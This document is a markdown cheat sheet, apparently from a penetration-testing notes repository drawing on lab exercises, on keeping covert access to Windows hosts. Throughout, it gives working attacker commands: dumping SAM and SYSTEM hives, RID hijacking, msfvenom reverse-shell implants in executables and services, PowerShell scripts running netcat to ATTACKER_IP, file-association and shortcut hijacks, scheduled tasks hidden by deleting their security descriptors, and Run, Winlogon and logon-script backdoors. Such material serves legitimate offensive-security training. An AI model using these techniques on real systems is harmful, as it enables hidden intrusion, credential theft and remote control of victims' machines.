

# Windows Persistence

## Assign Group Memberships

### Add to Administrators group
Most straight forward way, but could be suspicious.

`C:\> net localgroup administrators <username> /add`

### Add to Backup Operators
Backup Operators have read/write for any file or registry key on the system and ignores any configured DACL.

Can use this to copy SAM and SYSTEM registry hives to crack hashes offline.

`C:\> net localgroup "Backup Operators" <username> /add`

Downside is that this account is unprivileged and cannot RDP or WinRM to the machine. We can add it to the **Remote Desktop Users** for RDP or **Remote Management Users** for WinRM

`C:\> net localgroup "Remote Desktop Users" <username> /add`

`C:\> net localgroup "Remote Management Users" <username> /add`

#### After Creation
After connecting to the host using Evil-WinRM with the Backup Operators account, we can use the following commands to grab SAM and SYSTEM files:

`*Evil-WinRM* PS C:\> reg save hklm\system system.bak`

`*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak`

`*Evil-WinRM* PS C:\> download system.bak`

`*Evil-WinRM* PS C:\> download sam.bak`

Then you can use [impacket](../../useful_tools/Linux/README.md#impacket---secretsdumppy) for cracking the hashes. Then perform a Pass-the-Hash attack using [evil-winrm](../../remote_connection/Windows/README.md#winrm)

## Special Privileges and Security Descriptors
### SeBackupPrivilege & SeRestorePrivilege
These two privileges are the ones used by Backup Operator accounts. We can give users those privileges doing the following:

`C:\> secedit /export /cfg config.inf`

This will create a `config.inf` file in the current directory. Open the file in notepad (or something similar) and scroll to the [Privilege Rights] section. There look for the two privileges and add the user you want at the end of the line `<line>,<username>`. Then run the following commands:

`C:\> secedit /import /cfg config.inf /db config.sbd`

`C:\> secedit /configure /db config.sbd /cfg config.inf`

### Security Descriptor
We will now need to allow our user to connect to WinRM. **You will need to have GUI access to the host for this step**.

`C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI`

You will then need to add the user you want and select the Full Control(All Operations) box.

[After Creation](#after-creation)

If someone was looking at the user using `net user <username>` this method will not show that it has any special group memberships!

## RID Hijacking
This has to be one of my favorite low level ways of persistence (I just think it is cool, I may learn something better later on)!

The default Administrator account is assigned the RID = 500, while regular users have an RID >= 1000. We can check to see the RIDs by using the following command:

`C:\> wmic useraccount get name,sid`

The RID is the last part of the SID. Write down the RID of the account you want to change.

**You will need to get [pstools](../../useful_tools/Windows/README.md#pstools) onto the host machine**

`C:\<location of pstools> > PsExec64.exe -i -s regedit`

This will open up regedit with a SYSTEM account that will allow us to change the SAM. Go to: `HKLM\SAM\SAM\Domains\Account\Users\`

We will need to look through the accounts under the variable name F at location 0x30. This is the little endian hex value of the RID for the account. So make sure to take the RID of the user you want to give admin rights to and convert to little endian hex. Once you found the user you will need to change the 4 bytes to 0x01F4, which is 500. Make sure to put it in little endian F4 01.

Next time you attempt to log in the system will grant you admin rights!

## Potential Fences

### UAC
Due to UAC (User Account Control) admin rights may be stripped upon remote connection. This is due to the LocalAccountTokenFilterPolicy registry value. We can change that using the following command:

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

Where `/t` is the datatype, `/v` is the valuename, and `/d` is the data.

## Backdooring Files

### Executables
Find an executable that the user is likely to use frequently (check desktop). Once you find the executable download it to the attacking machine.

We can then use [msfvenom](../../useful_tools/Linux/README.md#msfvenom) to implant a reverse shell thread into the executable.

`msfvenom -a x64 --platform windows -x <executable name> -k -p windows/x64/shell_reverse_tcp lhost=<Attacker IP> lport=4444 -b "\x00" -f exe -o puttyX.exe`

You can then put it back on the system in the same place. That way a reverse shell will occur each time the user runs the program.

### Shortcut Files
Find a frequently used application and right-click to select properties. Here we can see the target value is the location of the application.

We can create a simple powershell script and hide it in `C:\Windows\System32`. The script could use [netcat](../../useful_tools/Windows/README.md#netcat):

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Use the application's location as the last line. `nc64.exe` can be placed anywhere, but then update the location in the script.

Afterwards we can update the shortcut's Target to our backdoor script.

`powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1`

This will open our backdoor in the background using powershell. You may need to change the icon back (search using the original location and you should find the original icon)

### Hijacking File Associations
We can have the OS run a shell for us whenever a certain file type is executed!

We need to find the ProgID of the file type first. This can be found in the registry `HKLM\Software\Classes\`. For example looking at .txt files.



Once we find the ProgID we then need to search for the subkey (also under `HKLM\Software\Classes\`). Once found go to `shell\open\command` subkey


Here we will see the default program to open the file. At the end you will notice `%1`, which is the first argument or the file that is trying to open.

We can then create a new backdoor program that will take advantage of this.

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice that we need to pass the file name ourselves using `$args[0]` in our powershell script. Again we will need [netcat](../../useful_tools/Windows/README.md#netcat).

We then need to update the Data section to point to our backdoor program.

`powershell -windowstyle hidden C:\windows\system32\backdoor.ps1 %1`

Anytime someone opens a `.txt` file we will get a shell!

## Abusing Services
### Creating backdoor services

#### Resetting admin password
```
sc.exe create <Service Name> binPath= "net user Administrator <Password>" start= auto

sc.exe start <Service Name>
```

Important to note that there must be a space after the equal signs. Here we are creating a service that starts automatically and resets the password of the admin.

#### Reverse shell
We can create a service using [msfvenom](../../useful_tools/Linux/README.md#msfvenom):

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker IP> LPORT=4444 -f exe-service -o <executable name>`

We can then copy that created service executable onto the host machine and run the following commands:

```
sc.exe create <Service Name> binPath= "<Path to the service executable>" start= auto

sc.exe start <Service Name>
```

### Modifying existing services
We want to start by finding an existing service that is disabled.

`C:\> sc.exe query state=all`

Once found you will want to look at the configuration.

`C:\> sc.exe qc <Stopped Service Name>`

We care about 3 things for persistence:

1) `BINARY_PATH_NAME` should point to our payload
2) `START_TYPE` should be set to `AUTO_START`, so user doesn't have to interact
3) `SERVICE_START_NAME` defines which account the service will be run under. We would prefer `LocalSystem` to gain SYSTEM privileges

When we have found our service we will want to create a [payload](#reverse-shell).

We then want to place the payload in a folder like `C:\Windows\`. Then we will run the following command to reconfigure the stopped service and have it point to our payload.

`sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"`

## Abusing Scheduled Tasks
### Task Scheduler
We will be using [schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) to interact with the task scheduler.

`C:\> schtasks /create /sc minute /mo 1 /tn <Task Name> /tr "<path to netcat> -e cmd.exe <Attacker IP> <port>" /ru SYSTEM`

* `/sc` and `/mo` tells the task to run every minute
* `/ru` tells the task to run as SYSTEM

We can see the scheduled task by running:

`schtasks /query /tn <task name>`

### Make task invisible
We don't want the user to see our scheduled tasks. We can do this by deleting the Security Descriptor. It is stored here:

`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`

We will need to be SYSTEM to delete the task, so we will need [psexec](../../useful_tools/Windows/README.md#psexec64exe) on the host system.

`C:\> <path to psexec64>/PsExec64.exe -s -i regedit`

Will allow us to make changes in the registry as SYSTEM.

Once you found the scheduled task, delete the SD subkey.

It will no longer show up when you run:

`schtasks /query /tn <task name>`

## Logon Triggered Persistence
### Startup Folder
Each user has a folder under:

`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

You can place executables to run whenever a user logs in. If you want it under all users instead of a single user, we can place the executable in:

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

We can create a reverse shell using [msfvenom](../../useful_tools/Linux/README.md#msfvenom) and then using python we can create a quick http server and grab the file onto the host machine.

Place the executable into one of the above folders. Wait for user to log in and boom... reverse shell!

### Run/Run Once
Here we can add programs to execute via the registry. Here are 4 places to add your executable:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

Where HKCU will be for the current user and HKLM is for every user. Anything under the `Run` key will run every time a user logs in, while `RunOnce` keys will only be executed a single time.

We can create a reverse shell using [msfvenom](../../useful_tools/Linux/README.md#msfvenom) and then using python we can create a quick http server and grab the file onto the host machine.

Place the executable in a non-descript location such as `C:\Windows\`

Open the registry and under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` (or whichever key you want to manipulate) we will create a `REG_EXPAND_SZ` (expandable string value) type with whatever name you want and the data value will be the location of the executable.

Once the user logs in you should receive a reverse shell!

### Winlogon
This loads the user profile right after authentication. It has a registry key under:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`

The subkeys worth noting are:

* `Userinit` points to `userinit.exe` which restores user profile preferences
* `shell` points to the system's shell, which is usually `explorer.exe`

Changing any of these could break the logon sequence, which is way too loud. But you can add commands seperated by commas and Winlogon will process them all!

We can create a reverse shell using [msfvenom](../../useful_tools/Linux/README.md#msfvenom) and then using python we can create a quick http server and grab the file onto the host machine. Place the file in a "safe" location such as `C:\Windows\`.

We can then add the executable after `userinit` or `shell` subkey's data.

### Logon scripts
One of the things `userinit.exe` does when loading the user profile is check for an environment variable called `UserInitMprLogonScript`. We can assign any script we want to this and it will be run. It is not set by default!

We can create a reverse shell using [msfvenom](../../useful_tools/Linux/README.md#msfvenom) and then using python we can create a quick http server and grab the file onto the host machine. Place the file in a "safe" location such as `C:\Windows\`.

Go into the registry at `HKCU\Environment` and add a REG_EXPAND_SZ with the name `UserInitMprLogonScript` and the data value as the location of your executable.